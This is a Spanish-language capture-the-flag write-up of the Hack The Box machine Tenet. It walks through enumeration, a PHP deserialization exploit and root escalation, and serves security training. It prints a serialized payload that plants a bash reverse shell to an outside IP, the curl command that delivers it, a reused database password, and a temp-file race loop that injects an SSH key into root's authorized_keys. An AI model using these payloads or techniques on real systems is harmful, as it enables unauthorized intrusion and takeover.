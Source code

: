 ```yaml
---
layout: post
title:  "Tenet | Hackthebox 👨‍💻"
date:   2021-06-12 5:35:00 +0200
last_modified_at: 2021-06-12 5:35:00 +0200
toc:  true
tags: [ctf, linux, hackthebox, Writeup, deserializacion]
---
```


{: .message }

Es una excelente maquina para practicas la deserializacion en PHP

## Enumeración 
### Nmap
* 22/tcp OpenSSH 7.6p1
* 80/tcp Apache httpd 2.4.29

```

```bash
nmap -sC -sV -p22,80 10.10.10.223 -oN Scan_port1                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 10:33 EDT
Nmap scan report for 10.10.10.223
Host is up (0.060s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.45 seconds
```

## Web Enumeration
Tips rapido de enumeracion siempre ver a que nos enfrentamos:
```bash
whatweb  10.10.10.223                                                             
http://10.10.10.223 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.223], Title[Apache2 Ubuntu Default Page: It works]
```

### Fuzz
* /users.txt
* /wordpress/wp-login.php

```bash
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Target: http://10.10.10.223/

[18:55:50] Starting: 
[18:58:30] 200 -    7B  - /users.txt
[18:58:36] 200 -    6KB - /wordpress/wp-login.php
```

### Tenet Wordpress
![](/images_blog/img_tenet/Pastedimage20210502200252.png)

Subdominio:
* sator.tenet.htb

### Tenet.htb
![](/images_blog/img_tenet/Pastedimage20210502180600.png)

## Off topic
* /xmlrpc.php

Aunque no tiene que ver me parece interesante la manera de explotacion que tiene esto [aqui]((https://www.securityfocus.com/bid/14088/exploit))


## PHP deserialization

[Lee](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)

Aqui esta el otro:
* Sator.php.bak

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

Esto nos sirve para saber por donde debemos tirar, entonces viendo como se mueve todo me di cuenta de que podria ser deserializacion y me encontre con el blog que puse al principio.

Luego con la php interactive podemos crear lo que queremos que el programa nos haga:

```php
php -a           
Interactive mode enabled

php > class DatabaseExport {
php {   public $user_file = 'rce.php';
php {   public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.101/4444 0>&1\'"); ?>';
php {   }
php > 
php > print urlencode(serialize(new DatabaseExport));
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.101%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Para que esto funcione hacemos esto, vemos que utiliza  ```arepo```
```
$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);
```

Entonces la data serializada que generamos la colocamos aqui:
```
curl -i http://sator.tenet.htb/sator.php\?arepo\=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.101%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Luego visitamos ```http://sator.tenet.htb/rce.php``` 


## PrivEsc
```bash
/** MySQL database username */                                                                                         
define( 'DB_USER', 'neil' );                                                                                           
                                                                                                                       
/** MySQL database password */                                                                                         
define( 'DB_PASSWORD', 'Opera2112' );     
```

Estas claves puedo entrar por ssh.

[mktemp](https://kbmwkaaxveg73o3q7ydl7zxf2a-adv7ofecxzh2qqi-superuser-com.translate.goog/questions/834277/what-should-i-worry-about-when-using-mktemp-dry-run) vemos que podemos ejecutar un script como root lo analizo y me llama esta parte:
```bash
addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

        (umask 110; touch $tmpName)

        /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName
}
```

Si nos fijamos en la parte del mktemp -u podemos ver que el script escribe la clave publica que se encuentra en la variable key la copia en un archivo

```bash
while true; do echo "ssh-rsa XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" | tee /tmp/ssh* > /dev/null; done
```

Conjuntamente ejecutamos el script varias veces y listo.

MACHINE PWNED!!!!!